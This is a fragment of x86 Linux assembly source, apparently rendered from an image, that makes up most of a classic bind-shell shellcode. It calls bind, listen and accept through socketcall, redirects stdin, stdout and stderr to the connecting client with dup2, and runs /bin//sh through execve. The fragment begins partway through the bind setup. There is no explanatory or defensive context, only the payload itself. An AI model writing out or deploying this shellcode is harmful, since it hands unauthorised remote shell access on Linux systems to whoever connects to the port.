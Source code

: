 ```nasm
        push ecx                ; &serv_addr
        push esi                ; sockfd

        mov ecx, esp            ; arguments
        mov al, 102             ; systemcall
        mov bl, 2               ; sys_bind
        int 0x80

        ; int listen(int sockfd, int backlog);
        xor eax, eax
        push eax                ; backlog
        push esi                ; sockfd

        mov ecx, esp            ; save arguments
        mov bl, 4               ; sys_listen
        mov al, 102             ; socket syscall
        int 0x80

        ; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
        xor eax, eax
        push eax                ; null
        push eax                ; null
        push esi                ; sockfd

        mov ecx, esp            ; save arguments
        mov bl, 5               ; sys_accept 
        mov al, 102             ; socket syscall
        int 0x80

        ; int dup2(int oldfd, int newfd);
        mov ebx, eax            ; oldfd = clientfd, eax es clientfd, resultado de accept
        xor ecx, ecx            ; ecx = newfd      
loop:
        mov al, 0x3f            ; syscall dup2    
        int 0x80
        inc ecx
        cmp ecx, 0x2
        jle loop


        ; execve stack-sh
        xor eax, eax
        push eax
        push 0x68732f2f
        push 0x6e69622f
        mov ebx, esp
        push eax
        mov edx, esp
        push ebx
        mov ecx, esp
        mov al, 11
        int 0x80

```
